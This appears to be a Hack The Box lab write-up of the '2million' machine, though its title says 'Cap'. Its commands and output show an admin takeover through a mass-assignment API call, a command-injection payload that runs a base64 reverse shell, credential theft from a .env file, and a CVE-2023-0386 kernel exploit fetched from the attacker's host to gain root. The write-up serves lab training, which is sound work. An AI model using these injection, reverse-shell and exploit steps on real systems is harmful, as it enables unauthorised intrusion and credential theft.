






# WRITE UP CAP - HTB MACHINE
## MY MAIN IDEA AND WALKTHROUGH:
1. First of all, we need to connect with the VPN from HTB, using the command: ```sudo openvpn <FILE_NAME>.ovpn```
2. OK! now check the HTB website and get the target IP and we are ready to startttt: 
   
3. My first step is using `nmap` to scan generally the IP address:
```bash
nmap --open <IP_ADDRESS>
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-09 05:04 +07
Nmap scan report for <IP_ADDRESS>
Host is up (0.21s latency).
Not shown: 839 closed tcp ports (conn-refused), 159 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
The scan result shows us there are two active ports: 22 (`ssh` port), 80 (`http` port).

4. My next step is checking the website of the given IP address and gain the url of the website:
   

5. I tried to fuzzing the website directories and vhosts using `ffuf` tool but I could not see anything helpful.
6. When I checked the website more carefully, I saw this page:
   
   In this page, I had to type the correct invite code to make new account. In this pic, I opened `Inspect` tab (You can open this tab by hit `Ctr+Shift+I`) and I reloaded the page and noticed the `inviteapi.min.js` file. There was the code in this file:
```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Obviously, the creator used the `JS obfucation` technique to make the JS code harder to read and understand. In the code header, I noticed the line `eval(function(p,a,c,k,e,d)` which suggest that the creator `packed` the code and I tried to `unpack` this code to the readable form by using `UnPacker` online tool:
	
```js
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
```

7. The readable code showed us one important detail: when we `POST` data to the url: `'/api/v1/invite/how/to/generate` we will know how to get the correct invite code.
8. My next approach is using `curl` tool to `POST` the data to the url:
```bash
curl http://2million.htb/api/v1/invite/how/to/generate -X POST -i
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 08 Jun 2026 22:12:52 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: PHPSESSID=vlmd9uloprnrh78v3a7kolp888; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```
Hurray! We got something to see here. The hint was encrypted by ROT13 and there are hundreds of ROT13 decrypt online tool. Decrypted the ciphertext, I got this line:
```bash
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate, this was the response:
```
Using `curl` and `POST` one more time to the new url: `\/api\/v1\/invite\/generate`
```bash
curl http://2million.htb\/api\/v1\/invite\/generate -X POST -i
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 08 Jun 2026 22:18:12 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: PHPSESSID=ko8v0r8lh5bcr9ae6llch186dj; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"0":200,"success":1,"data":{"code":"<CODE>","format":"encoded"}}
```
By my experience, I guessed that this text was encrypted by Base64. I tried to decrypt the ciphertext and I got the correct invite code to create my own account.
```bash
echo "<CODE>" |base64 -d
<INVITE_CODE>
```

9. After creating my account, I can access the `/home` page.
 

10.  Looked around, I noticed some interesting thing, especially in `/home/access` page, where allowed me to download the VPN collection pack file. Turned on the `Inpect` tab and clicked the download button, the `Inspect` tab showed that when the button was clicked, the page sent the `GET` request to the address: `http://2million.htb/api/v1/user/vpn/generate`. My approach idea in this case is: `/api/v1` is the place to make and return invite code, return VPN collection pack file so, maybe I could use `curl` and try to send various of request to `/api/v1` and see what happen.
    
```bash
	curl http://2million.htb\/api\/v1 -v                                                                        
     * Host 2million.htb:80 was resolved.                                                                              
     * IPv6: (none)                                                                                                    
     * IPv4: 10.129.229.66                                                                                             
     *   Trying 10.129.229.66:80...                                                                                    
     * Connected to 2million.htb (10.129.229.66) port 80                                                               
     * using HTTP/1.x                                                                                                  
     > GET /api/v1 HTTP/1.1                                                                                            
     > Host: 2million.htb                                                                                              
     > User-Agent: curl/8.14.1                                                                                         
     > Accept: */*                                                                                                     
     >                                                                                                                 
     * Request completely sent off                                                                                     
     < HTTP/1.1 401 Unauthorized                                                                                       
     < Server: nginx                                                                                                   
     < Date: Tue, 16 Jun 2026 21:46:02 GMT                                                                             
     < Content-Type: text/html; charset=UTF-8                                                                          
     < Transfer-Encoding: chunked                                                                                      
     < Connection: keep-alive                                                                                          
     < Set-Cookie: PHPSESSID=1pploigqo74p64klocskbj2a3o; path=/                                                        
     < Expires: Thu, 19 Nov 1981 08:52:00 GMT                                                                          
     < Cache-Control: no-store, no-cache, must-revalidate                                                              
     < Pragma: no-cache                                                                                                
     <                                                                                                                 
     * Connection #0 to host 2million.htb left intact  
```
The response code was `401 Unauthorized` which meant we did not allow to access this url. But because we created our legal, I next step is using the account cookie to send request to `/api/v1`

```bash
curl http://2million.htb\/api\/v1 -i -H 'Cookie: PHPSESSID=<MY_COOKIE>' 
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 16 Jun 2026 21:51:27 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{                                                                                                                 
  "v1": {                                                                                                         
    "user": {                                                                                                     
      "GET": {                                                                                                    
        "/api/v1": "Route List",                                                                                  
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
},
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```
This time the respone was `200 OK` and we had many thing to try.

11.  I tried with the `GET` request to `/api/v1/admin/auth` to check if my account is admin and gained the info that my account was a normal account. I tried to send `POST` request to `/api/v1/admin/vpn/generate` but it was `401 Unauthorized`. I noticed the line: `"PUT":{"/api/v1/admin/settings/update": "Update user settings"}` so I tried to sent some request:
```bash
curl http://2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=<MY_COOKIE>' -X PUT -d '' -H 'Content-Type: application/json' | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
curl http://2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=<MY_COOKIE>' -X PUT -d '{"email": "admin@mail.com"}' -H 'Content-Type: application/json' | jq
{                                                                                                                 
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
curl http://2million.htb/api/v1/admin/settings/update -H 'Cookie: PHPSESSID=<MY_COOKIE>' -X PUT -d '{"email": "admin@mail.com","is_admin": 1}' -H 'Content-Type: application/json' | jq
{
  "id": 13,
  "username": "admin",
  "is_admin": 1
}
```
After double checking with the `/api/v1/admin/auth` I knew that I fooled the API to recognize me as admin:
```bash
curl http://2million.htb/api/v1/admin/auth -H 'Cookie: PHPSESSID=<MY_COOKIE>' | jq
{
  "message": true
}
```

12.  I returned to `/api/v1/admin/vpn/generate` one more time and sent `POST` request to see the response. The response showed me that I could interact with `/api/v1/admin/vpn/generate` and generate the VPN for specific user. This means when I `POST` data, the API will bring it to backend server and after the handle process, backend server responses back to my computer. My next approach is using `command injection` technique:
```bash
curl http://2million.htb/api/v1/admin/vpn/generate -H 'Cookie: PHPSESSID=<MY_COOKIE>' -X POST -d '{"username": "admin;whoami;"}' -H 'Content-Type: application/json'
www-data
```
The backend server response the output of `whoami` command is `www-data` which verifies that our `command injection` attack succesful. 

13.   From the hint in previous step, I tried to inject `reverse shell` in the command but it return nothing. Maybe I should encode our reverse shell to bypass the security system of backend server. I tried to encode my reverse shell to `base64`:
```bash
curl http://2million.htb/api/v1/admin/vpn/generate -H 'Cookie: PHPSESSID=<MY_COOKIE>' -X POST -d '{"username": "admin;echo '<BASE64_REVERSE_SHELL>'| base64 -d| bash;"}' -H 'Content-Type: application/json'
```
By this way, I gained access to the server through `reverse shell`. (NOTE: Before inject reverse shell into target server, you have to open your computer port to hear the reverse signal from the server. My favourite tool to do this task is `nc`: `sudo nc -lvnp <Your_computer_port>`)

14.  I could only do some basic command in the server because my current identify in server was `www-data` user which has very low privilege. So, next step, let make some basic, general scan.
15.  One of the most important file to check is `.env` file. The `.env` file contain environment variables, sensitive data such as: DB_USERNAME, DB_PASSWORD,... The creators do not want to insert these environment variables and sensitive data into source code so they usually put them into `.env` file.
```bash
www-data@2million:~/html$ find .env
find .env
.env
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=<ADMIN_PASSWORD>
```

16.  The `.env` file supplied us `DB_PASSWORD` and `DB_USERNAME` which allowed us to login to `ssh`.
```bash
ssh admin@<IP_ADDRESS>
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 17 10:53:37 AM UTC 2026

  System load:           0.0
  Usage of /:            73.1% of 4.82GB
  Memory usage:          8%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: <IP_ADDRESS>
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2251

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$
```
After this step, I could interact with server as user `admin` which gave me more privilege.

17. Get the user flag: 
```bash
admin@2million:~$ cd /home
admin@2million:/home$ ls
admin
admin@2million:/home$ cd admin
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt
<USER_FLAG>
```
18. Now we have to perform a `escalating privilege` attack to gain the `root` privilege.
19. I noticed the detail: `You have mail` and it inspired me to check the mail box of `admin` user located in `/var/mail/`
```bash
admin@2million:~$ cd /var/mail/
admin@2million:/var/mail$ ls
admin
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
20.  In this mail, the sender noticed about one important detail: this server had `OverlayFS / FUSE` vulnerability (CVE-2023-0386) which could lead to `escalating privilege`!! So, I searched for this vulnerability and how to exploit it. I found the payload to exploit this vulnerability on the Internet (You can visit this website and learn more about how to exploit this vulnerability: `https://hackindex.io/vulnerabilities/CVE-2023-0386`)
21.  Follow the instruction on the website, I gained the `root` privilege:
* On my computer:
  
  1. Git and prepared the files.
```bash
┌─[admin@parrot]─[~/Desktop]
└──╼ $git clone https://github.com/puckiestyle/CVE-2023-0386.git
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (28/28), done.
remote: Total 39 (delta 16), reused 24 (delta 7), pack-reused 0 (from 0)
Receiving objects: 100% (39/39), 429.54 KiB | 1.83 MiB/s, done.
Resolving deltas: 100% (16/16), done.
┌─[admin@parrot]─[~/Desktop]
└──╼ $cd CVE-2023-0386
┌─[admin@parrot]─[~/Desktop/CVE-2023-0386]
└──╼ $make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xb1af): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

  2. The command allows my computer to become `http` server:
  ```bash
  python3 -m http.server 8000
  ```
* On server:
    
    1. Using `curl` to connect to my computer which became a `http` server and download operate file:
    ```bash
    admin@2million:~$ curl http://<MY_COMPUTER_IP>:8000/gc -O
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
    100 16112  100 16112    0     0  13142      0  0:00:01  0:00:01 --:--:-- 13152
    admin@2million:~$ curl http://<MY_COMPUTER_IP>:8000/exp -O
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 17288  100 17288    0     0  17126      0  0:00:01  0:00:01 --:--:-- 17133

    admin@2million:~$ curl http://<MY_COMPUTER_IP>:8000/fuse -O
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 1238k  100 1238k    0     0   209k      0  0:00:05  0:00:05 --:--:--  257k
    ```
    2. Make directory and add `execute` privilege to downloaded files:
    ```bash
    admin@2million:~$ mkdir ovlcap 
    admin@2million:~$ chmod +x gc exp fuse
    ```

    3. Exploit:
    ```bash
    *shell session 1:
    ./fuse ./ovlcap/lower ./gc
    ```
    ```bash
    shell session 2:
    admin@2million:~$ ./exp
    uid:1000 gid:1000
    [+] mount success
    total 8
    drwxrwxr-x 1 root   root     4096 Jun 17 11:35 .
    drwxrwxr-x 6 root   root     4096 Jun 17 11:35 ..
    -rwsrwxrwx 1 nobody nogroup 16112 Jan  1  1970 file
    [+] exploit success!
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    root@2million:~# 
    ```
22. The `escalating privilege` attack successful, currently I had the `root` privilege. The last step is go to `/root` directory and gain the flag:
```bash
root@2million:~# cd /root
root@2million:/root# ls
root.txt  snap  thank_you.json
root@2million:/root# cat root.txt
<ROOT_FLAG>
```
### NOTE
- I will learn and research more about the `OverlayFS / FUSE` vulnerability (`CVE-2023-0386`). I will update blog on my personal website about this CVE and how the payload work soon.
- There is another way to perform a `escalating privilege` in this lab is exploit the vulnerability `CVE-2023-4911`, related to `GLIBC library` version. Of course, there will be one blog about this way.
## THING I LEARNT AFTER THIS LAB:
- Do not spend to much time in web enum/fuzzing step
- When checking the system to find the way to `escalating privilege`, find the sensitive file first such as: `.env` file.
- Notice small but very important detail such as: `You have mail`
- Trust the process
      
    